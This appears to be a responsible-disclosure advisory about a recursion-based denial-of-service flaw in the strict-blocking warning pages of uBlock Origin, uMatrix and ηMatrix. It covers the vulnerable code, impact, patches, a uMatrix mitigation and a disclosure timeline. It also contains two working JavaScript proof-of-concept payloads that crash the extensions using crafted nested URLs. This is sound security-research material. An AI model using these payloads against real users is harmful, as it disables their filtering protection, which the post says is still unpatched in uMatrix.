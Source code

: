 = uBlock Origin (and uMatrix) DoS with strict-blocking filter and crafted URL

:fn-edge-release: footnote:[Releases of the uBO Edge extension can sometimes be https://github.com/uBlockOrigin/uBlock-issues/issues/1649#issuecomment-879345449[held up by reviews]. Edge users can apparently https://support.microsoft.com/en-us/microsoft-edge/add-turn-off-or-remove-extensions-in-microsoft-edge-9c0ec68c-2fbc-2f2c-9ff0-bdc76f46b026[install extensions from the Chrome add-ons site], though I do not know how that would impact the delivery of future uBO updates.]

:fn-legacy-release: footnote:[A release of the uBO (Legacy) extension https://github.com/gorhill/uBlock-for-firefox-legacy/issues/310#issuecomment-876323719[is forthcoming].]

:fn-ubo-strict-mode-history: footnote:[Strict-blocking support was added to uBO in https://github.com/gorhill/uBlock/commit/a4b4bc98ffc267496d5dc47d9c4477de38bcd0c7[commit a4b4bc] and was based on https://github.com/uBlock-LLC/uBlock/issues/1013[discussion in the issue tracker]. Support for displaying parsed URL parameters was added later in https://github.com/gorhill/uBlock/commit/1d5a592b129b92ff6fad7cf01c4b412547893bfc[commit 1d5a59] and was based on a https://github.com/gorhill/uBlock/issues/691[feature request].]

:fn-umatrix-strict-mode-history: footnote:[uBO's support for displaying parsed URL parameters was ported to uMatrix in https://github.com/gorhill/uMatrix/commit/3f8168ce0bb7bb1837f9fedfc02aa09723ee3e25[commit 3f8168].]

:fn-ubo-patch: footnote:[The uBO vulnerability was fixed in https://github.com/gorhill/uBlock/commit/365b20e8cc27cd776ef3868b02ea739ba387356d[commit 365b20].]

:fn-ematrix-patch: footnote:[The ηMatrix vulnerability was fixed in https://gitlab.com/vannilla/ematrix/-/commit/42869ac0a738679b819bebca24298c601ed17f7e[commit 42869a].]

:fn-truecrypt-vulnerability: footnote:[I eventually migrated away from TrueCrypt after an https://googleprojectzero.blogspot.com/2015/10/windows-drivers-are-truely-tricky.html[unpatched vulnerability] was discovered.]

:fn-umatrix-archived: footnote:[gorhill https://github.com/uBlockOrigin/uMatrix-issues/issues/291#issuecomment-694988696[commented] about archiving the uMatrix repository in September 2020.]

:fn-umatrix-last-stable-release: footnote:[The last stable release of uMatrix, https://github.com/gorhill/uMatrix/releases/tag/1.4.0[1.4.0], was tagged on September 5, 2019.]

:fn-ubo-patch-release: footnote:[https://github.com/gorhill/uBlock/releases/tag/1.36.2[uBO 1.36.2] was tagged shortly after notification of the vulnerability.]

:fn-ematrix-patch-release: footnote:[https://gitlab.com/vannilla/ematrix/-/tags/v4.4.9[ηMatrix 4.4.9] was tagged shortly after notification of the vulnerability.]


== Overview

uBlock Origin (uBO) is a browser extension that blocks ads, security risks, privacy risks, and other web annoyances.
One of its features is "strict blocking," which prevents all connections--including direct navigations--to resources that match strict filters.

Strict filters are most often used to block sites that perform affiliate redirects, serve malware, or are otherwise undesirable to visit.
They are typically applied at the domain level (e.g., googlesyndication.com) and tend to resemble entries in hosts files, though they can also target more specific resources.

Strict blocking works by opening a warning page that provides information about the blocked resource, including its URL and the filter that prevented the resource from loading.
The warning page also displays query parameters from the blocked URL to help users bypass redirect tracking.

In earlier versions of uBO, these parameters were parsed recursively and added to the DOM without any depth checks, which could lead to extension crashes and memory exhaustion, depending on the browser and hardware.
uMatrix and ηMatrix, a fork of uMatrix compatible with Pale Moon, share similar code for displaying parsed URL parameters.

Users should upgrade to uBO 1.36.2 and ηMatrix 4.4.9 to receive fixes for this security vulnerability, which affects the default configurations of both extensions.
The uBO Edge extension{fn-edge-release} and the uBO (Legacy) extension{fn-legacy-release} have separate release processes and are still vulnerable.

*uMatrix remains unpatched and unmaintained*, though an unofficial mitigation is detailed below.


== Discussion

I discovered this bug while browsing the uBO codebase, which was a bit surprising given how basic the finding is.
Even more surprising is that this vulnerability seems to have existed in uBO since 2015{fn-ubo-strict-mode-history} (and in uMatrix since 2017{fn-umatrix-strict-mode-history}).
Perhaps the extension has not received as much attention from security researchers as I'd expected, given its popularity and its security- and privacy-related functionality?

=== Vulnerability

Here is the vulnerable code from uBO 1.36.0:

[source,javascript,linenums,start=147]
.https://github.com/gorhill/uBlock/blob/1.36.0/src/js/document-blocked.js#L147-L176[uBlock/src/js/document-blocked.js]
----
const renderParams = function(parentNode, rawURL) {
    const a = document.createElement('a');
    a.href = rawURL;
    if ( a.search.length === 0 ) { return false; }

    let pos = rawURL.indexOf('?');
    const li = liFromParam(
        vAPI.i18n('docblockedNoParamsPrompt'),
        rawURL.slice(0, pos)
    );
    parentNode.appendChild(li);

    const params = a.search.slice(1).split('&');
    for ( const param of params ) {
        let pos = param.indexOf('=');
        if ( pos === -1 ) {
            pos = param.length;
        }
        const name = safeDecodeURIComponent(param.slice(0, pos));
        const value = safeDecodeURIComponent(param.slice(pos + 1));
        const li = liFromParam(name, value);
        if ( reURL.test(value) ) {
            const ul = document.createElement('ul');
            renderParams(ul, value);                            <1>
            li.appendChild(ul);
        }
        parentNode.appendChild(li);
    }
    return true;
};
----

<1> `renderParams` is called recursively without taking into account the current nesting level.
This allows for repeated allocations that can cause resource exhaustion on memory-constrained hardware and extension crashes in Chrome.

For reference, here is what the warning page looks like in uBO 1.36.0 with some nested parameters displayed:

.uBO's strict-blocking warning page
image::images/ubo_strict_blocking_warning_page.png[uBO's strict-blocking warning page. The page displays a URL that contains a few levels of nested parameters and the parsed representations of those parameters.]

=== Impact and scope

The strict-blocking warning page is only displayed when direct navigations are blocked.
This means that malicious hosts would need to induce users to trigger a navigation somehow, such as by clicking a link.
iframes are classified as sub-documents and do not trigger the warning page, which should make it harder for malicious hosts to exploit this vulnerability in the background.

When uBO (or uMatrix) crashes, users are left without filtering protection until the extension is reloaded.
This introduces the possibility of undesired traffic flowing to and from the user's browser.
I tested three browsers--Firefox, Chrome, and Pale Moon--and only noticed extension crashes in Chrome.
Other browsers that uBO supports, such as Opera and Edge, were not tested and may exhibit different behavior.

The vulnerability affects standard configurations of uBO, uMatrix, and ηMatrix because each extension enables filter lists that contain thousands of strict filters by default.

=== uBO and ηMatrix patches

uBO 1.36.2 restricts parameter-nesting to 2 levels to fix the bug{fn-ubo-patch}, and ηMatrix 4.4.9 restricts parameter-nesting to 3 levels to fix the same issue{fn-ematrix-patch}.

=== uMatrix mitigation

The uMatrix repository was archived in September 2020{fn-umatrix-archived}, and the last stable uMatrix release was in September 2019{fn-umatrix-last-stable-release}.
Until now, I've been treating uMatrix similarly to how I treated TrueCrypt after its development had stopped: unmaintained but still trustworthy in the absence of known vulnerabilities{fn-truecrypt-vulnerability}.
I may have to rethink my default stance for unmaintained security-related software going forward.

To mitigate the vulnerability for now, users can disable uMatrix's strict-blocking support by unselecting all of the filter lists on the "Assets" tab in the uMatrix dashboard.
They can also enable all of the "Malware domains" and "Multipurpose" filter lists in uBlock Origin to help offset the lost filtering coverage.


== POCs

=== uBO

[source,javascript]
----
// bet365.com is used because uBO enables EasyList by default and because
// EasyList contains this entry: ||bet365.com/*?affiliate=$document

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
}

const url = 'http://bet365.com/?affiliate=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uBO eventually crashes
// and must be reloaded to work again.
----

=== uMatrix and ηMatrix

[source,javascript]
----
// googleadservices.com is used because uMatrix and ηMatrix enable Peter Lowe's
// tracking list by default and because the list contains this entry:
// 127.0.0.1 googleadservices.com

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
} else if (navigator.userAgent.includes('PaleMoon')) {
    // Pale Moon can actually handle more repetitions than this,
    // but its memory usage becomes excessive (>10GB)
    repetitions = 18000;
}

const url = 'http://googleadservices.com/?a=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uMatrix eventually crashes
// and must be reloaded to work again.
----


== Timeline

* 2021-07-05 - I emailed gorhill (the author of uBO and uMatrix) my findings
* 2021-07-06 - gorhill pushed a fix for uBO and tagged 1.36.2{fn-ubo-patch-release}
* 2021-07-06 - I emailed vannilla (the maintainer of ηMatrix) my findings
* 2021-07-06 - vannilla pushed a fix for ηMatrix and tagged 4.4.9{fn-ematrix-patch-release}
* 2021-07-06 - uBO 1.36.2 became available on the Chrome and Firefox add-ons sites
* 2021-07-07 - uBO 1.36.2 became available on the Opera add-ons site
* 2021-07-11 - ηMatrix 4.4.9 became available on the Pale Moon add-ons site after a beta-testing period
* 2021-07-14 - I published this post


== Acknowledgments

Thanks to gorhill for fixing the issue in uBO, preparing a release, and creating software that has improved daily web-browsing for many users.

Thanks to vannilla for fixing the issue in ηMatrix and preparing an out-of-band release.

Thanks to nikrolls for submitting uBO 1.36.2 to the Edge add-ons site.

Thanks to JustOff for agreeing to prepare a future uBO (Legacy) release that addresses the vulnerability.

== References

* https://github.com/gorhill/uBlock/wiki/Strict-blocking/[Documentation for uBO's strict-blocking feature]
* https://github.com/gorhill/uMatrix/wiki/How-to-get-past-%22uMatrix-has-prevented-the-following-page-from-loading%22[Documentation for uMatrix's strict-blocking feature]

